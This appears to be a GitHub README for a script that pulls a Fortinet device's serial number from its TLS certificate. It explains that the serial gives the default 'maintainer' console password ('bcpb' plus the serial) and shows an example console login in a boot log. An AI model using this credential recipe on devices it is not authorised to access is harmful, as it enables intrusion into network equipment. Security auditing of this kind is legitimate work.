


<p align="center">
    Extract the serial number of a remote Fortinet device.
</p>

<p align="center">
  
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"></a>
  <br>
</p>

## Example

```
$ ./GetFortinetSerialNumber.py -H forti.example.com
[+] Getting certificate information ...
  | Serial number: FGT60DPA12345789
  |   Detected FortiGate 60D (FGT60D-PA12345789)
  |   If you have a console access, here is the default password:
  |   | Username: maintainer
  |   | Password: bcpbFGT60DPA12345789
[+] 1 serial number(s) found in forti.example.com:443 certificate information.
```

## Explanation

When you connect to the remote Fortinet device from a browser, you get a self-signed certificate error:



And if we look closely, we see the device serial number appears in the certificate `Common Name`: 



## What to do with the serial number ?

Firstly knowing the serial number allows to know what type of device it is, and the serial number can be used for generating the default credentials for the console of the device. For example with the serial number of a FortiGate 100 E `FG100EPA12345678`:

 - **Username** : `maintainer`
 - **Password** : `bcpbFG100EPA12345678`

```
Code: Of Ob 22 £2 30 80 ff ff ff ff 91 01 8b 04 9d 40 cd 47 80 3b
RIP [<ffffffff80118ac9>] RSP <0000010106e74ec8>
 <0>Kernel panic: Attempted to kill the idle task!
In idle task - not syncing
 <0>Rebooting in 5 seconds..FortiGate-60D (15:02-10.10.2012)
Serial number:FGT60DPA12345789
RAM activation
CPU(00:000106ca bfebfbff): MP initialization
CPU(01:000106ca bfebfbff): MP initialization
CPU(02:000106ca bfebfbff): MP initialization
CPU(03:000106ca bfebfbff): MP initialization
Total RAM: 4096MB
Enabling cache...Done.
Scanning PCI bus...Done.
Allocating PCI resources...Done.
Enabling PCI resources...Done.
Zeroing IRQ settings...Done.
Verifying PIRQ tables...Done.
Boot up, boot device capacity: 15272MB.
Press any key to display configuration menu... 

Reading boot image 1432336 bytes.
Initializing firewall...
System is starting... 

FOR60D login: maintainer 
Password: ********************
Welcome ! 

FOR60D # 
FOR60D # 
FOR60D # 
```

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.
